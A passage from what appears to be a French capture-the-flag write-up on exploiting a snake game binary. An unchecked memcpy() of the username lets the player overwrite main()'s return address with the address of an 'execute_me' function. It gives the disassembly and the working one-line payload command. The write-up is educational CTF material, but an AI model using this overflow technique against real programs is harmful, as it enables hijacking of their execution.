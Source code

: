 1. *draw()* affiche le tableau à l'aide des fonctions ncurses
2. *keyboard\_move* est appelé pour lire une touche du clavier
3. le tableau est réécrit en utilisant à nouveau memcpy() pour placer le nom du joueur aux nouvelles coordonnées

En observant les crashs (via gdb ou simplement via dmesg) on note que c'est ce dernier memcpy() qui est faillible.  

Le code qui nous intéresse est le suivant :  

```asm
0x08048e19    8b44241c     mov eax, dword [esp + 0x1c] ; ici on a les ordonnées (y) du serpent
0x08048e1d    c1e004       shl eax, 4                  ; multiplication par 16 (soit une ligne)
0x08048e20    01d8         add eax, ebx                ; ebx = début du tableau
0x08048e22    03442418     add eax, dword [esp + 0x18] ; ajout des abscisses (x)
0x08048e26    894c2408     mov dword [esp + 8], ecx    ; ecx = longueur du username
0x08048e2a    89542404     mov dword [esp + 4], edx    ; edx = username
0x08048e2e    890424       mov dword [esp], eax        ; eax = adresse où copier le username
0x08048e31    e83af9ffff   call sym.imp.memcpy
```

*keyboard\_move* ajoute 1 aux ordonnées si on se déplace vers le bas et 1 aux abscisses si on va à droite.  

Aucune vérification n'a été faite sur la sortie du tableau par conséquent l'idée est de définir l'adresse d'*execute\_me* comme username, de nous positionner en dehors du tableau vers le bas pour écraser ce qu'il y a après (c'est à dire l'adresse de retour du main() car le tableau est réservé dedans) puis de quitter le jeu avec 'q' pour sortir de la boucle de *play\_game* pour attendre l'instruction ret à l'adresse 0x08048ede.  

Il faut bien voir qu'à chaque déplacement memcpy() est appelé donc on écrase à chaque fois au moins un dword (ou plus en fonction de la longueur du username, tronqué à 32 caractères).  

A nous de ne pas aller trop loin dans l'écrasement de la mémoire pour ne pas obtenir un résultat inattendu.  

Dans la pratique il m'aura suffit de remplir une ligne avec l'adresse d'*execute\_me* répétée 4 fois puis de descendre seulement 1 ligne en dehors du tableau avant de quitter :  

```plain
$ ./snaaaake `python -c "print '\x80\x89\x04\x08'*4"`
Awesome!
Erreur de segmentation
```


*Published June 01 2016 at 11 54*